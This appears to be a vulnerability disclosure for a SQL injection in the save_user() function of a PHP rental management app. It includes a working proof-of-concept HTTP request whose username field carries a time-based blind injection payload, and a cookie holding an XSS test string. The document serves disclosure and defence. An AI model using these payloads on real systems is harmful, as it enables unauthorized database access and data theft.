 #### There is an SQL injection vulnerability in the save_user() function of the file rental/admin_class.php.

**Code Analysis**

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910164506067.png)

No filtering was performed on username, which was directly concatenated into the SQL statement, creating a vulnerability exploit point.

**Vulnerability reproduction**

poc

```http
POST /ajax.php?action=save_user HTTP/1.1
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: http://localhost:1110
Connection: keep-alive
Referer: http://localhost:1110/index.php?page=users
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; XDEBUG_SESSION=13926; PHPSESSID=3hl2t1rg411rdcvu3pagf1cg5n
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=2&name=ton&username=jerry%40qq.com'or%20(select(123)from(select(sleep(6)))x)%23&password=123456&type=1
```

Seeing success delayed by 6 seconds.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910164628867.png)

